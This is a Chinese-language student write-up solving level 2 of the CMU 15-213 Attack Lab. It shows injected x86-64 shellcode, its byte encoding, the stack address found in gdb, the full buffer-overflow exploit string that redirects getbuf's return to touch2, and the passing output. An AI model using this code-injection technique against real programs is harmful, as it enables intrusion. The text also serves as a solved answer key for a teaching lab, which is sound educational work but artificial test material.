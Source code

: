 提示已经写的很清楚了：

1. 在getbuf的返回地址处填写攻击代码的地址，以便getbuf返回后能执行攻击代码。
2. 攻击代码需设置rdi为cookie的值，然后用ret来将控制传递给touch2
3. 不要使用call或者jmp指令，使用ret指令来执行控制转移

则攻击代码为:

```asm
mov 0x59b997fa, %rdi
pushq $0x4017ec
ret
```

反汇编得到：

```

test.o：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```



则`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3`为所需代码

注入后需修改getbuf的返回地址为攻击代码的起始地址，而攻击代码的起始地址为`rsp`的值，在gdb中查看得到：

```
(gdb) info r rsp
rsp            0x5561dc78	0x5561dc78
```

故应设置返回地址为0x5561dc78，则答案为:

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

使用`hex2raw`转换并执行后得到结果：

```
Starting program: /home/zwen/桌面/cmu-15213-labs/target1/ctarget -q <attack-raw.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 

```
